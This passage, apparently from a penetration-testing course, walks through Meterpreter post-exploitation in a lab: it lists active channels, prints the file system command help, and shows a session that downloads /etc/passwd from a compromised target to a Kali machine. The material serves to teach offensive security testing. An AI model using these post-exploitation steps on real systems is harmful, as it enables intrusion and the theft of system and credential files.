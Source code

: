 > Listing 39 - List all active channels and interact with channel 1

Listing 39 shows we can execute commands in the context of channel 1 again. Using channels will help us tremendously to manage system access and perform post-exploitation operations.

Next, let's use the *download* and *upload* commands from the category *File system Commands* to transfer files to and from the system. For this, let's review the commands of this category first.

```
meterpreter > help
...
Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    chmod         Change the permissions of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcat          Read the contents of a local file to the screen
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory
...
```

> Listing 40 - List all File system Commands of Meterpreter

Listing 40 shows us various commands that we can use to upload, download, or manage files on the local and target system. Commands with "l" as prefix operate on the local system; in our case our Kali VM. For example, we can use these commands to change the directory to where we want to download or upload files.

Let's download **/etc/passwd** from the target machine to our Kali system. For this, we'll change the local directory on our Kali machine to **/home/kali/Downloads** first. Then, we'll enter the **download** command and **/etc/passwd** as argument.

```
meterpreter > lpwd
/home/kali

meterpreter > lcd /home/kali/Downloads

meterpreter > lpwd
/home/kali/Downloads

meterpreter > download /etc/passwd
[*] Downloading: /etc/passwd -> /home/kali/Downloads/passwd
[*] Downloaded 1.74 KiB of 1.74 KiB (100.0%): /etc/passwd -> /home/kali/Downloads/passwd
[*] download   : /etc/passwd -> /home/kali/Downloads/passwd

```